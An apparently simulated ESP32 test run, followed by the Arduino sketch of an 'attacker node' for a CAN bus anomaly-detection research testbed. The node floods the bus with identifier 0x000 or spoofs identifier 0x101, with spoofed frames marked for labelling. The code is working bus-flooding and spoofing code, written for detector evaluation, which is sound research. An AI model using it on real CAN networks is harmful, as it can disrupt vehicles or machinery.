
A sketch run on a simulated ESP32. Parts: the last lines printed to the serial monitor. The test bench sets the inputs (shaded band); at power-on: GPIO 0 (BUTTON_PIN) HIGH. No CAN messages arrive unless stated.

Above: at 1.7 s.
1.8 s: GPIO 0 (BUTTON_PIN) pulled LOW for 0.15 s
At 2.9 s:

3.5 s: GPIO 0 (BUTTON_PIN) pulled LOW for 1 s
6.0 s: GPIO 0 (BUTTON_PIN) pulled LOW for 0.15 s
At 6.18 s:

Timing chart, 0 to 9.0 s (numbered marks = the images above; inputs shaded):


Measured:
- after the input at 1.8 s, the serial monitor: prints a new line at once (image 1)
- after the input at 6.0 s, the serial monitor: prints a new line at once (image 2)
- plotted number 1: 49 → 50 after the input at 6.0 s

The sketch:

attacker_node.ino
```cpp
// =====================================================================
// Attacker node (ESP32 #3) for the CAN bus anomaly-detection testbed
// =====================================================================
//
// Part of the project "Implementation and Evaluation of CAN Bus
// Anomaly Detection on ESP32 Hardware". This node generates the attack
// traffic used to evaluate the detector on an isolated three-node test
// bench (sender, receiver, attacker). It is not intended for use on any
// real or shared CAN network.
//
// Two attack modes, selected by ATTACK_MODE below:
//   MODE_FLOOD : transmits the unused identifier 0x000 as fast as the bus
//                allows (DoS flooding). 0x000 is outside the seven normal
//                identifiers, so the detector maps it to [UNK].
//   MODE_SPOOF : transmits the legitimate identifier 0x101 at a higher
//                rate than the sender. The first payload byte is set to
//                MARKER_BYTE and the DLC to 8 (genuine 0x101 frames use a
//                DLC of 2) so the logging/labelling script can separate
//                spoofed frames from genuine ones in the saved CSV.
//
// Bus settings (identical on all three nodes):
//   TWAI TX = GPIO19, RX = GPIO18, 500 kbit/s, normal mode.
//   Normal mode (not listen-only) is required so this node acknowledges
//   frames like any other node on the bus.
//
// A push-button on BUTTON_PIN (wired to GND, internal pull-up) starts and
// stops the attack. The start and stop times are also printed to Serial so
// they can be marked in the host log.

#include <Arduino.h>
#include "driver/twai.h"

// ---- Pin configuration ----
#define CAN_TX_PIN   GPIO_NUM_19
#define CAN_RX_PIN   GPIO_NUM_18
#define BUTTON_PIN   GPIO_NUM_0    // "BOOT" button on many ESP32 boards

// ---- Attack configuration ----
#define MODE_FLOOD   0
#define MODE_SPOOF   1
#define ATTACK_MODE  MODE_SPOOF    // set to MODE_FLOOD for the flooding run

#define FLOOD_ID            0x000  // unused identifier -> flagged as [UNK]
#define SPOOF_ID            0x101  // legitimate identifier (see SPOOF_ID in the Colab notebook)
#define SPOOF_INTERVAL_MS   20     // the sender transmits 0x101 every 500 ms; this is much faster
#define MARKER_BYTE         0xA5   // first payload byte of spoofed frames, used only for labelling

// ---- State ----
static bool     attacking  = false;
static bool     lastButton = HIGH;
static uint32_t sentCount  = 0;    // frames successfully queued for transmission
static uint32_t failCount  = 0;    // transmit attempts that failed (queue full, bus busy, error)
static uint32_t lastReport = 0;

static bool setupCan() {
  twai_general_config_t g = TWAI_GENERAL_CONFIG_DEFAULT(CAN_TX_PIN, CAN_RX_PIN, TWAI_MODE_NORMAL);
  g.tx_queue_len = 64;
  twai_timing_config_t t = TWAI_TIMING_CONFIG_500KBITS();
  twai_filter_config_t f = TWAI_FILTER_CONFIG_ACCEPT_ALL();
  if (twai_driver_install(&g, &t, &f) != ESP_OK) return false;
  if (twai_start() != ESP_OK) return false;
  return true;
}

static bool sendFlood() {
  twai_message_t m = {};
  m.identifier = FLOOD_ID;
  m.data_length_code = 8;
  for (int i = 0; i < 8; i++) m.data[i] = 0xFF;
  return twai_transmit(&m, 0) == ESP_OK;
}

// Transmit one spoofed 0x101 frame, marked with MARKER_BYTE. Returns true if queued.
static bool sendSpoof() {
  twai_message_t m = {};
  m.identifier = SPOOF_ID;
  m.data_length_code = 8;
  m.data[0] = MARKER_BYTE;
  for (int i = 1; i < 8; i++) m.data[i] = 0x00;
  return twai_transmit(&m, pdMS_TO_TICKS(2)) == ESP_OK;
}

static void printStatus() {
  twai_status_info_t s;
  if (twai_get_status_info(&s) == ESP_OK) {
    const char *state = s.state == TWAI_STATE_RUNNING ? "RUNNING"
                      : s.state == TWAI_STATE_BUS_OFF ? "BUS_OFF"
                      : s.state == TWAI_STATE_STOPPED ? "STOPPED" : "RECOVERING";
    Serial.printf("  state=%s tx_err=%lu rx_err=%lu tx_queued=%lu tx_failed=%lu\n",
                  state, (unsigned long)s.tx_error_counter, (unsigned long)s.rx_error_counter,
                  (unsigned long)s.msgs_to_tx, (unsigned long)s.tx_failed_count);
  }
}

static void startAttack() {
  attacking = true;
  sentCount = 0;
  failCount = 0;
  Serial.printf("ATTACK_START mode=%s t_us=%llu\n",
                ATTACK_MODE == MODE_FLOOD ? "flood" : "spoof",
                (unsigned long long)esp_timer_get_time());
}

static void stopAttack() {
  attacking = false;
  Serial.printf("ATTACK_STOP t_us=%llu frames_sent=%lu frames_failed=%lu\n",
                (unsigned long long)esp_timer_get_time(),
                (unsigned long)sentCount, (unsigned long)failCount);
  printStatus();
}

void setup() {
  Serial.begin(115200);
  delay(500);
  pinMode(BUTTON_PIN, INPUT_PULLUP);

  if (setupCan()) {
    Serial.println("Attacker node ready (500 kbit/s). Press the button to start/stop the attack.");
    Serial.printf("Mode = %s\n", ATTACK_MODE == MODE_FLOOD ? "FLOOD (0x000)" : "SPOOF (0x101, marked)");
  } else {
    Serial.println("ERROR: CAN start failed.");
    while (true) delay(1000);
  }
}

void loop() {
  // Button handling: a falling edge toggles the attack on or off.
  bool b = digitalRead(BUTTON_PIN);
  if (lastButton == HIGH && b == LOW) {
    attacking ? stopAttack() : startAttack();
    delay(250);   // simple debounce
  }
  lastButton = b;

  // Generate attack traffic while active.
  if (attacking) {
    if (ATTACK_MODE == MODE_FLOOD) {
      // No delay: transmit as fast as the loop allows. sendFlood() returns
      // immediately rather than blocking, so this is "as fast as possible".
      if (sendFlood()) sentCount++; else failCount++;
    } else {
      static uint32_t lastSpoof = 0;
      uint32_t now = millis();
      if (now - lastSpoof >= SPOOF_INTERVAL_MS) {
        lastSpoof = now;
        if (sendSpoof()) sentCount++; else failCount++;
      }
    }
  }

  // Once per second, report the rate while attacking.
  uint32_t now = millis();
  if (now - lastReport >= 1000) {
    lastReport = now;
    if (attacking) {
      Serial.printf("attacking: %lu sent/s, %lu failed/s\n",
                    (unsigned long)sentCount, (unsigned long)failCount);
      printStatus();
      sentCount = 0;
      failCount = 0;
    }
  }
}
```
